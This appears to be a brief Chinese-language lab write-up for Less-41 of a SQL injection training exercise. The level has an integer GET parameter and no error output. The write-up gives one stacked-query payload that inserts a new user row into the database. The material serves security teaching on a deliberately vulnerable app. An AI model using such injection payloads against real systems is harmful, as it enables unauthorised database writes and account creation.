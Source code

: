 # GET-BLIND based-Intiger-Stacked  
TAG：GET型注入、盲注、堆叠注入  
## 漏洞利用  
![less41_1](images\less41_1.png)  
此less为关闭错误回显的堆叠注入变种，通过之前提到的判断方式可知此less参数类型为整形无包裹    
  
构造添加用户的payload:```?id=1;insert into users(id,username,password) values ('20','less41','hello')--+```  
![less41_2](images\less41_2.png)  